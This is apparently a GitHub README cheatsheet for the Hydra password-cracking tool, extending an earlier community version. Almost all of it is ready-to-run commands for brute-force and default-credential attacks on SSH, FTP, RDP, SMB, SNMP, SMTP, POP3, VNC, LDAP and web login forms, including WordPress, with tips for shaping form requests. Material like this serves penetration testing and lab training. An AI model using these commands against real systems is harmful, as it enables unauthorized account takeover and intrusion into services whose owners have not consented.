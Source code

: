 # Hydra Cheatsheet

Hydra Password Cracking Cheatsheet, the [Original](https://github.com/frizb/Hydra-Cheatsheet), this one is four years old so I made some additions.

Always consider adding the `-e`
```bash
-e nsr    try "n" null password, "s" login as pass and/or "r" reversed login
```

- Using burp to capture a request and copying and pasting the form names into the command line avoid silly mistakes that are time costly
```bash
# Command 								Description:
hydra -P password-file.txt -v $ip snmp 					# Hydra brute force against SNMP
hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp 	# Hydra FTP known user and rockyou password list

# Default FTP credentials
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt $ip ftp
 
hydra -v -V -u -L users.txt -P passwords.txt -t 1 $ip ssh 		# Hydra SSH using list of users and passwords
hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh 			# Hydra SSH using a known password and a username list
hydra $ip -s 22 ssh -l -P big_wordlist.txt 				# Hydra SSH Against Known username on port 22
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V 	# Hydra POP3 Brute Force
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V 			# Hydra SMTP Brute Force
hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin 		# Hydra attack http get 401 login with a dictionary
hydra -t 1 -V -f -l administrator -P rockyou.txt rdp://$ip 		# Hydra attack Windows Remote Desktop with rockyou
hydra -t 1 -V -f -l administrator -P rockyou.txt $ip smb 		# Hydra brute force SMB user with rockyou

# Non Usernames
# redis, adam6500, cisco, oracle-listener, s7-300, snmp and vnc modules are only using the -p or -P option, not login (-l, -L) or colon file (-C)
hydra -P /usr/share/wordlists/rockyou.txt vnc://$ip

# Hydra HTTP Basic Authentication Brute Force
hydra -l admin -P /usr/share/wordlists/rockyou.txt $ip -s $port -f http-get / 

# Hydra brute force a Wordpress admin login
hydra -l username -P wordlist.txt -f 10.10.71.232 http-post-form "/login.php:username=^USER^&password=^PASS^:F=incorrect" # READ THE SOURCE
hydra -l admin -P ./passwordlist.txt $ip -V http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' 

hydra -L usernames.txt -P passwords.txt $ip smb -V -f 			# SMB Brute Forcing
hydra -L users.txt -P passwords.txt $ip ldap2 -V -f 			# LDAP Brute Forcing

# Need a cookie

...F=incorrect:H=Cookie:...
```

## References

[Frizb's Hydra Cheatsheet(Original)](https://github.com/frizb/Hydra-Cheatsheet)